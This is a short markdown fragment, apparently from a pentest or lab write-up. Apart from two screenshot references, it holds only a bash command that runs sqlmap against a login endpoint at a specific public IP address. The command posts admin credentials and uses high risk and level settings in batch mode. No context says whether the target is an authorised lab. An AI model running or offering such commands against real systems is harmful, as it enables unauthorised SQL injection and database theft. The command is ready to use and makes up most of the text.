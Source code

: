 ![alt text](<./img/Screenshot 2024-12-28 155007.png>)

```bash
python3 sqlmap.py -u "http://3.221.186.32:3000/api/administracion/login" \ 
--data '{"usuario": "admin", "password": "-4x::m>m4LP>X$rf"}' \
--method POST \
--dbms mysql -p password \
--batch \
--level=2 \
--risk=3
```

![alt text](<./img/Screenshot 2024-12-28 155120.png>)
